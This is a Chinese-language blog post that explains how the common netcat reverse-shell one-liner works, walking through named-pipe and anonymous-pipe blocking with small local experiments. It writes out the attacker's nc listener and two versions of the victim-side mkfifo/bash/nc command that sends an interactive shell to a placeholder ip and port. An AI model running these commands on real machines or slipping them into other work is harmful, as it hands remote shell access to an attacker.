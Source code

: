 ```yaml
---
layout: post
title:  "对于nc反弹shell的一些疑惑"
date:   2021-03-21 11:13:57 +0800
author: MP4Four
keywords: nc bash anonymous-tunnel
tags: nc shell
---
```


### 一次平平无常的nc反弹shell操作如下

**attack machine:**

```bash
$nc -l port -v
```

**victim machine:**

```bash
$rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc ip port &>/tmp/f
```

等价于

```bash
$rm /tmp/f;mkfifo /tmp/f;/bin/bash -i 2>&1 </tmp/f | nc ip port &>/tmp/f
```

之前看到这个方式知道可以连接，但仍存在一些疑惑，主要是对匿名管道和管道的工作方式不太理解，以为cat会进行阻塞，那么后面的命令便一直在等待，但其实发现并不是。

### 匿名管道不会进行阻塞

这里所说的阻塞是加入前一个命令因为I/O请求阻塞了，后一个命令依然会继续执行，不会等待前一个命令的输出才运行。看下面这个简单例子

```bash
$cat /tmp/f | echo "xxx"
```

（省略了mkfifo这一步骤）由于/tmp/f初始为空，所以cat会进入阻塞状态，等待来自管道的数据，而后面的echo "xxx"并并没有因此收到影响，而是直接执行，因此terminal会输出一个xxx，同时cat仍然在等待着管道f填充数据

### 尝试和bash联动

```bash
$cat /tmp/f | $(which bash) -i
```

此命令执行完后没有输出，但并不意味着什么也没发生，当前termial已经新开了一个bash，并且等待着从管道f读取命令



新开一个terminal（tab or window皆可），叫它termial2吧（前一个就叫terminal1），在**terminal2**输入

```bash
$echo "date -u" > /tmp/f
```

则terminal1输出此命令和此命令的结果



这里发现在**读取一次输入后自动就exit了**，但是我们的nc反弹shell并不会执行一次命令就gg。这是因为terminal1这条命令的意思就是“**从管道里读入数据，将数据作为bash的输入命令，然后输出bash执行结果至stdout，程序结束**”，没有后续的输入输出，按照逻辑程序自然就结束了。

接下来尝试了下面这个命令 (**terminal1**)

```bash
$cat /tmp/f | $(which bash) -i &>/tmp/f
```



**terminal2**

```bash
$echo "pwd" > /tmp/f
```

结果发现terminal1没有任何输出，在**terminal2**里尝试读取一下管道里的信息

```bash
$cat /tmp/f
```

满屏幕不断滚动，基本逻辑就是“**从管道f里读入数据，bash解释执行此数据，然后将结果重定向至管道f**”，此时管道f里数据不为空，cat接着输出，cat有输出就意味着bash又有输入，于是发现程序并没有退出逻辑，所以周而复始，就死循环了。除了第一个是pwd的正常输出外，其余基本都是错误输出（当然了，pwd的输出很难成为一个有效命令）。

此时再回顾下面命令

```bash
$cat /tmp/f | /bin/bash -i 2>&1 | nc ip port &>/tmp/f
```

即使初始管道为空，这条命令执行后也会立即和attack machine建立nc连接，此时在attack machine输入命令，回车，命令通过tcp连接发送给victim machine的nc，nc输出被重定向至f管道，然后cat从f管道将命令读出来，传递给bash作为输入，bash执行此条命令后将结果输出传递给nc，nc将结果返回给attack machine，就达成了远程获取shell的成就！

### 画了一幅图，大概长这样

![nc-mechanism](/assets/nc-mechanism.png)

如有错误，欢迎指出